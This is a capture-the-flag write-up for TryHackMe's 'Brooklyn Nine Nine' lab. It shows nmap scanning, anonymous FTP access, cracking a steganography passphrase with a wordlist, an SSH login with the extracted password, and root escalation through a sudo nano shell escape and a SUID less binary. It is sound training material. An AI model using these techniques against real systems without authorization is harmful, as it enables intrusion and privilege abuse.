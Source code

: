 # [TryHackMe Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

Just another __*fantastic*__ day for hacking! 

We start by deploying the machine. We've got the IP address of the virtual machine: `10.10.247.201`. Please change it where necessary in this write-up to your own virtual machine IP address!
```
$ export IP=10.10.247.201
```
This command creates an environment variable called $IP with the value given, so we can access it thru bash anywhere needed by calling $IP.
Please also note that, every line that starts with a $ means a terminal command, so when copy&paste'ing commands remember to remove the initial $.

Every time we want to know about our machine, we do the process of "enumeration", which consists in listing which ports, services and possible vulnerabilities may be exploitable in the machine we are analysing. 

Let's do the first one: port and service enumeration!
```
$ nmap -sV -sC -oN nmap-initial $IP

Starting Nmap 7.60 ( https://nmap.org ) at 2020-07-26 11:12 -03
Nmap scan report for 10.10.247.201
Host is up (0.23s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.11.107
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.40 seconds
```
We note that there are three services open: A FTP server on port 21, a SSH server on port 22, and a Web server on port 80. 
We also note that the FTP server accepts anonymous login... hmm... and there is a file called `note_to_jake.txt` there. Let's log in and download it to take a look...

```
$ ftp $IP
Connected to 10.10.247.201.
220 (vsFTPd 3.0.3)
Name (10.10.247.201:landau): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (62.2114 kB/s)
ftp> exit
221 Goodbye.
```

Now reading the note_to_jake.txt file:
```
$ cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

So, with this simple file, we have some good info: There should be at least three users: amy, jake and holt. But no other info on the password.
We have another source of information we haven't checked yet: There is a web server on port 80.
We can open it on the browser, and check the source code:
```
(...)

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
</body>

(...)
```
Steganography! Let's download the file and extract it!
```
$ wget $IP/brooklyn99.jpg
```
Alrighty! Now we just try to extract the info inside the file with steghide:
```
$ steghide extract -sf brooklyn99.jpg
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```
Hmm... password protected. Let's break it with [StegCracker](https://github.com/Paradoxis/StegCracker)
```
stegcracker brooklyn99.jpg 
StegCracker 2.0.8 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: <REDACTED>
Tried 20### passwords
Your file has been written to: brooklyn99.jpg.out
```
Ok, information extracted from the file. What it is?

```
$ cat brooklyn99.jpg.out 
Holts Password:
<REDACTED>

Enjoy!!

```
This password must be the SSH credential for the `holt` user! Let's try and log in:
```
$ ssh holt@$IP
```
and fill in the password we've found. We're in!
Listing the files in the home folder with the `ls -la` command, we see that there is a `user.txt` file. Must be the user flag!
```
cat user.txt
<REDACTED>
```
Now we need to get the root flag.
There is a nano.save file... hmm... something about nano?
```
$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano

```
So it can run nano with sudo without password! 
Let's check [GTFOBins](https://gtfobins.github.io/) if there is some sudo breakout with nano:
```
It runs in privileged context and may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.

> sudo nano
> ^R^X
> reset; sh 1>&0 2>&0
```
NICE! let's run then `sudo nano nano.save`, press CTRL+R CTRL+X and enter the command above `reset; sh 1>&0 2>&0`

```
# id
uid=0(root) gid=0(root) groups=0(root)
```
WE. ARE. ROOT. 

SWEET!

```
cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <REDACTED>

Enjoy!!
```

## BONUS:
There is a second way to get to the root.txt file. If we search for SUID files...
```
$ find / -perm -u=s -type f 2>/dev/null
(...)
/bin/mount
/bin/su
/bin/ping
/bin/fusermount
/bin/less
/bin/umount
```
less? This one is not an usual SUID file...
```
$ ls -ls $(which less)
0 lrwxrwxrwx 1 root root 9 Feb  3 18:22 /usr/bin/less -> /bin/less
```
SUID owned by root... so we can use it to read the /root/root.txt file!
```
$ less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <REDACTED>

Enjoy!!
```
Thank you [FSociety2006](https://tryhackme.com/p/Fsociety2006) for creating this fantastic machine! It touches a lot of concepts for beginners and give that feeling for PrivEsc we all love to have. It was very fun!

Also thanks for the [TryHackMe](https://tryhackme.com/) team for hosting the machine and the challenge page. You guys rock!

